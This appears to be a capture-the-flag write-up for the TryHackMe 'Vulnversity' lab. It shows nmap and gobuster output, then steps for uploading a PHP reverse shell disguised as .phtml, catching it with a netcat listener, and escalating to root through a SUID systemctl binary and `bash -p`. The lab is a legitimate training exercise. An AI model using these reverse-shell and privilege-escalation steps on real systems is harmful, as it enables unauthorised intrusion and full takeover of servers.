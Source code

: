 # Vulnversity
https://tryhackme.com/room/vulnversity

Got some help from John Hammond for privledge escalation: https://www.youtube.com/watch?v=hvYWCegfEZs

## NMAP
```
└─$ nmap -sV $IP
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-18 20:19 PST
Nmap scan report for <IP>
Host is up (0.15s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.82 seconds
```

## GOBUSTER
```
/images               (Status: 301) [Size: 320] [--> http://<IP>:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://<IP>:3333/css/]
/js                   (Status: 301) [Size: 316] [--> http://<IP>:3333/js/]
/fonts                (Status: 301) [Size: 319] [--> http://<IP>:3333/fonts/]
/internal             (Status: 301) [Size: 322] [--> http://<IP>:3333/internal/]
```

## STEPS TO COMPLETE

Created fuzzer.py to check for allowed file extension uploads. Found .phtml is allowed

downloaded php reverse shell from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Changed extension on file to .phtml and uploaded it to vulnerable server

use nc to listen on port 4444. `nc -lvnp 4444`

Navigated to http://<IP>:3333/internal/uploads/php-reverse-shell.phtml in web browser.

Gained reverse shell. (unstable)

Find files with suid
find / -perm -4000 2>/dev/null

/bin/systemctl stands out

check gtfobins for systemctl payload

modify payload to add suid to /bin/bash

run `bash -p`

root permissions. cd into /root/ and cat flag file

